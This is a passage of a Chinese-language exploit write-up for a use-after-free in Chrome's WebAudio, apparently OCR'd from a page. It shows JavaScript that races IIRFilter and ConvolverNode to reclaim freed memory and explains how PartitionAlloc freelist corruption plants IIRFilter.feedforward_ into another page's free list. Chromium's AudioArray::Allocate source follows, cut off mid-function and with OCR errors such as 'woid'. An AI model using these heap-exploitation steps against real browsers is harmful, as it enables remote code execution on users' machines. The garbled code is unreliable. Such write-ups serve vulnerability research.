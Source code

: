 ```JavaScript
    for (let i = 0; i < iirFilters.length; i++) {
      floatArray.fill(0);
      iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);

      if (floatArray[0] != 3.1415927410125732) {
        finished = true;
       // << 申请被释放掉的 IIRFilter.feedforward_
        audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
        audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
        bufferSource.disconnect();
        convolver.disconnect();
        return;
      }
    }

    await later(1); // wait 1 millisecond
    convolver.buffer = smallAudioBuffer;
  }
}
```

用 `IIRFilter.Feewordward_` 的地址把 `AudioBuffer` 填满，之后再次触发漏洞，利用 `accumulation_buffer_`，把 `IIRFilter.feedforward_` 的地址写入释放后的内存块开头，就相当于把 `IIRFilter.feedforward_` 指向的缓冲区插入 `accumulation_buffer_` 所属页面的空闲链表。

`IIRFilter.feedforward_` 和 `accumulation_buffer_` 两个内存块的大小不同，所属页面也一定不同，`IIRFilter.feedforward_` 其实是被插入到了错误的链表上，但是这并不影响漏洞利用，后续对 `AudioArray::Allocate` 函数调用会申请到这块内存，之后这块内存再次被释放时，释放动作就会把它插入到正确的页面中，就修正了之前的错误。

---

**ℹ️NOTE**: 我调试来看由于利用代码故意选择了 0xf0 结尾的内存地址，此内存块的地址不满足 `AudioBuffer` 的 0x20 对齐要求，`AudioBuffer` 在申请到以后并不会使用这块内存，直接就释放了。

---

```CPP
woid AudioArray::Allocate(size_t n) {
	// Although n is a size_t, its true limit is max unsigned because we use
	// unsigned in zeroRange() and copyToRange(). Also check for integer
	// overflow.
	CHECK_LE(n, std::numeric_limits<unsigned>::max() / sizeof(T));
	uint32_t initial_size = static_cast<uint32_t>(sizeof(T) * n);

#if defined(ARCH_CPU_X86_FAMILY) || defined(WTF_USE_WEBAUDIO_FFMPEG)
	const unsigned kAlignment = 32;
#else
	const unsigned kAlignment = 16;
#endif

	if (allocation_)
		WTF::Partitions::FastFree(allocation_);

	bool is_allocation_good = false;

	while (!is_allocation_good) {
		// Initially we try to allocate the exact size, but if it's not aligned
		// then we'll have to reallocate and from then on allocate extra.
		static unsigned extra_allocation_bytes = 0;

		unsigned total =
				base::CheckAdd(initial_size, extra_allocation_bytes).ValueOrDie();
		T* allocation = static_cast<T*>(WTF::Partitions::FastZeroedMalloc(
				total, WTF_HEAP_PROFILER_TYPE_NAME(AudioArray<T>)));
		CHECK(allocation);

```